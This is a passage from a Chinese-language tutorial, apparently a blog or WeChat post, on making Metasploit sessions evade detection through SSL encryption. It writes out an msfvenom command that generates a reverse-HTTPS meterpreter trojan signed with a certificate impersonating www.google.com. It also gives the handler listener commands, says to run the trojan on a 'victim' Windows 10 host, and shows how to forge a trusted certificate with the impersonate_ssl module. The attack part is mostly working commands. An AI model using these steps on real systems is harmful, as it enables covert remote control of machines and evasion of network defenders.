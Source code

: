 *   HandlerSSLCert：向处理程序通知所使用的 PEM 证书。
    
*   StagerVerifySSLCert：当收到一个连接时执行 SSL 证书验证。
    
*   PayloadUUIDTracking 和 PayloadUUIDName：可以在监听的时候过滤掉不需要的回连请求。
    

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DQhKO2GFsibB5HfxLxYoVr4O7j5s4Diak2kTJBtNFfic2MBB5FYI6SZHoQ/640?wx_fmt=png)

也可以生成一个 psh 类型的木马：

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 PayloadUUIDTracking=true HandlerSSLCert=/root/www.google.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o shell.bat
```

### 3. 启动监听

```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_https
set LHOST 192.168.0.100
set LPORT 4444
set HandlerSSLCert /root/www.google.com.pem
set StagerVerifySSLCert true
exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DzPFOkbS3tOCnkqq8icsK97icrPASk2zYyIK2SvrbnL250jTA3BuMGeLA/640?wx_fmt=png)

配置侦听器时还需要使用两个附加选项 HandlerSSLCert 和 StagerVerifySSLCert。这是为了通知处理程序它将使用的证书（与有效负载相同），并在接收到连接时执行 SSL 证书验证。

将生成的木马 shell.exe 上传到目标主机 Windows 10，并执行即可得到 Windows 10 的 meterpreter：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DLTNHOXYZ9BXplxrK3BakIa5emrAnnQxOyb6hH3qm5lzHrbWDialATYw/640?wx_fmt=png)

此时受害者主机 Windows 10 上开启 wireshark 监听，攻击者执行命令进行后渗透，wireshark 即可捕捉到攻击流量：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DqY6fIGMAlXbl0QkeKFb0tKzDyooWuywgcpTfp7KRZPAQIm0MnjIN3g/640?wx_fmt=png)

随便追踪一个 TCP 流进行分析：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DbOzDlSzZnjhrD0zNVH4kWplqiciameqYwKJjEj7xUzRr0MLeQOHMpw3Q/640?wx_fmt=png)

可见此时看到的 TCP 流中信息都是乱码，二者之间的通信经过了 SSL 加密。

### impersonate_ssl 模块

此外 Metasploit 框架还有一个 auxiliary/gather/impersonate_ssl 模块，可以用来自动从信任源创建一个虚假证书，十分方便：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DP23qD1WERSNRzia9ym1BWiaEGjmKZqKichMV5vSGhopuN7fjSicpicWecfg/640?wx_fmt=png)

使用方法如下：

```
use auxiliary/gather/impersonate_ssl 
set RHOST www.google.com
run
```
